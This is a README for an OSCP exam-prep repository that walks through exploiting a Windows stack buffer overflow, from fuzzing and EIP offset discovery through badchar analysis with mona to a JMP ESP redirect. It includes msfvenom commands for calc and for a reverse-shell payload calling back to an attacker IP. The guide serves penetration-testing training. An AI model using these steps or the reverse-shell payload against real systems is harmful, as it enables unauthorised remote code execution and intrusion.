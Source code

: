 # Buffer Overflow methodology

![GitHub Repo stars](https://img.shields.io/github/stars/3isenHeiM/OSCP-BoF?style=social) [![GitHub last commit (branch)](https://img.shields.io/github/last-commit/3isenHeiM/OSCP-BoF/master)](https://github.com/3isenHeiM/OSCP-BoF/commits) ![Language](https://img.shields.io/badge/-python-3776AB?logo=python&logoColor=white)


![GitHub](https://img.shields.io/github/license/3isenHeiM/OSCP-BoF)


[![Twitter Follow](https://img.shields.io/twitter/follow/3isenHeiM?style=social)](https://twitter.com/3isenHeiM)


## Introduction

These are 7 simple python scripts and a methodology **to ease** (not *automate* !) the exploitation.
Each script targets a phase of the exploitation :

1. Trigger the BoF (this is facultative for OSCP since they give you a code snippet)
2. Find the EIP offset
3. Confirm the offset
4. Find the badchars
5. Confirm badchars + find JMP ESP instruction
6. Confirm code execution (pop calc)
7. Exploit host

It's based on the [do stack buffer overflow good](https://github.com/justinsteven/dostackbufferoverflowgood)" project (BTW, it's awesomely explained).

## How to use

Follow each step and you'll be able to craft a working example of a BoF exploitation.

All the specific variable are stored in [1 single resource file](PARAMETERS.py),
to avoid any confusion during the exam.

After each step, fill the proper variables with values found and they'll be re-used for the next step

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 0. Pre-start

Fill in the following variables in the [resource file](PARAMETERS.py) depending on the host to attack :
 * ``RHOST`` : the IP address of the host
 * ``RPORT`` : the port on which to access the application to exploit

## 1. Segmentation fault : [1_segfault.py](1_segfault.py)

Send enough length string for victim system crash.

Please note that the total length to input is often given in the exmaple they
provide in the exam.

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.

## 2. Find the offset : [2_find_offset.py](2_find_offset.py)

Generate the pattern (adapt the buffer lenght) :

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

    buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : [3_confirm_offset.py](3_confirm_offset.py)

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : [4_find_badchars.py](4_find_badchars.py)

Send it to the application

In Immunity Debugger, make mona create a list of badchars :

    !mona bytearray –cpb “\x00”

The console output will tell you where it has been saved.

Compare this file with the stack contents :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

**Note: **always use the full path to the file !

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : [5_find_jmp_esp.py](5_find_jmp_esp.py)

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona :

    !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

The console output will tell you where it has been saved.

Compare the ``bytearray.bin`` (**use the full filepath**) and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

The mona output status should be ``unmodified`` and you should get a message in the
console saying : ``!!! Hooray, normal shellcode unmodified !!!``

This mean that no other badchars have been detected.

### b. Find a JMP ESP

Ask mona to find the instruction ``JMP ESP`` that will allow the processor to execute
whatever we have put in the stack.

    !mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``


## 6. Pop calc : [6_pop_calc.py](6_pop_calc.py)

This will confirm the code execution on the target host.
This can be used to validate the build-up of the exploit, and set a working basis.

Launch this to produce the shellcode that will make calc pop on the target :

    msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
    CMD=calc.exe EXITFUNC=thread

Insert the output (python variable ``shellcode_calc``) in the script ``6_pop_calc.py``.

In the script, we will also move ESP up in the stack (instruction ``SUB ESP,0x10``)
This is to avoid the ESP overwrite by the encoder of the payload.
Some guys use a NOP sled, here is a more proper way ;)

Launch the script and enjoy popping calc!

## 7. Create shellcode : [7_exploit.py](7_exploit.py)

Now, you can craft any other shellcode as long as you respect the badchars :

    msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
    -f py -b '<badchars>' -e x86/shikata_ga_nai -var-name shellcode

Insert the output (python variable ``shellcode_calc``) in the script ``7_exploit.py``.
